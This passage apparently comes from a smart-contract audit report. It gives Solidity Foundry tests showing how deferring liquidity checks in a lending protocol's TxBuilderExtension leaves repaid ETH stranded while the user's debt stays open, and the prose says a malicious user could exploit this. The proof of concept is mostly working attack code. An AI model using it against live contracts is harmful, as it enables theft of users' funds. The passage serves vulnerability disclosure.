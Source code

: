 ```solidity
        // Could perform other Borrows here as well to justify deferring liquidity checks.

        // Execute
        extension.execute{value: repayAmount1}(actions);
        vm.stopPrank();

        assertEq(ib.getSupplyBalance(user1, DAI), supplyAmount1);

        // ! User's WETH Borrow Balance is still 10 WETH
        assertEq(ib.getBorrowBalance(user1, WETH), repayAmount1);

        assertEq(ib.getBorrowBalance(user1, WSTETH), borrowAmount1);

        // ! The Extension's balance is now the User's sent ETH
        assertEq(address(extension).balance, repayAmount1);
    }
```

Building upon the last test case, the following test case demonstrates how a malicious user could use the non-zero balance of the `TxBuilderExtension` contract to perform actions with it leveraging the double-spending capabilities of these functions.

```solidity
function testDeferLiquidityCheckWithRepayNativeTokenTheft() public {
        uint256 supplyAmount1 = 100_000e18; // DAI

        uint256 repayAmount1 = 10e18; // ETH
        uint256 borrowAmount1 = 10e18; // WSTETH

        // Give user1 some DAI.
        deal(DAI, user1, supplyAmount1);

        vm.startPrank(user1);
        // User had already supplied 100k DAI and taken a loan of 10 WETH.
        // In this example, the user repays his 10 WETH loan to take out a 10 WSTETH loan.
        IERC20(DAI).safeIncreaseAllowance(address(ib), supplyAmount1);
        ib.supply(user1, user1, DAI, supplyAmount1);
        ib.borrow(user1, user1, WETH, repayAmount1);

        // Set up TxBuilderExtension actions
        TxBuilderExtension.Action[]
            memory actions = new TxBuilderExtension.Action[](3);
        actions[0] = TxBuilderExtension.Action({
            name: "ACTION_DEFER_LIQUIDITY_CHECK",
            data: bytes("")
        }); // Defer liquidity check first and then repay.
        actions[1] = TxBuilderExtension.Action({
            name: "ACTION_REPAY_NATIVE_TOKEN",
            data: bytes("")
        });
        actions[2] = TxBuilderExtension.Action({
            name: "ACTION_BORROW",
            data: abi.encode(WSTETH, borrowAmount1)
        });
        // Could perform other Borrows here as well to justify deferring liquidity checks.

        // Execute
        extension.execute{value: repayAmount1}(actions);
        vm.stopPrank();

        assertEq(ib.getSupplyBalance(user1, DAI), supplyAmount1);

        // ! User's WETH Borrow Balance is still 10 WETH
        assertEq(ib.getBorrowBalance(user1, WETH), repayAmount1);
```